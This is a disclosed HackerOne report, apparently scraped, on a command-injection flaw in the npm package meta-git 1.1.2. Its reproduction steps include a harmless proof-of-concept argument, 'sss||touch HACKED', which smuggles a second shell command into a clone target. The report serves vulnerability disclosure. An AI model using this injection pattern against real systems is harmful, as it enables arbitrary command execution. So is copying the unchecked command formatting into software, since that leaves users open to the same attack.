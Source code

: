 # [meta-git] RCE via insecure command formatting

## Report Details
- **Report ID**: 728040
- **URL**: https://hackerone.com/reports/728040
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-11-02T22:14:33.047Z
- **Disclosed**: 2020-01-11T11:57:31.528Z

## Reporter
- **Username**: mik317
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `RCE` issue in the `meta-git` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

# Module
**module name:** `meta-git`
**version:** `1.1.2`
**npm page:** `https://www.npmjs.com/package/meta-git`

## Module Description
> git plugin for meta

## Module Stats
[~60] downloads in the last day
[429] downloads in the last week
[~2k] downloads in the last month

## Vulnerability Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/mateodelnorte/meta-git/blob/master/lib/metaGitUpdate.js#L49

## Steps To Reproduce:
1. Create a new directory and insert some test files:

```bash
mkdir tests
cd tests
touch test
touch secret
touch files
```
1. Check there aren't files called `HACKED` 
1. Execute the following commands in another terminal:

```bash
npm i meta-git -g # Install affected module
meta-git clone 'sss||touch HACKED' # *HACKED* file is created
```
1. Recheck the files: now `HACKED` has been created :) {F624209}

## Patch
> Don't format `commands` using insecure `user's inputs` :)

## Supporting Material/References:
- [OPERATING SYSTEM VERSION]: Kali Linux
- [NODEJS VERSION]: 10.16.3
- [NPM VERSION]: 6.0.9

# Wrap up
- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

`RCE` via command formatting on `meta-git`

## Attachments
- Screenshot_from_2019-11-02_23-08-42.png
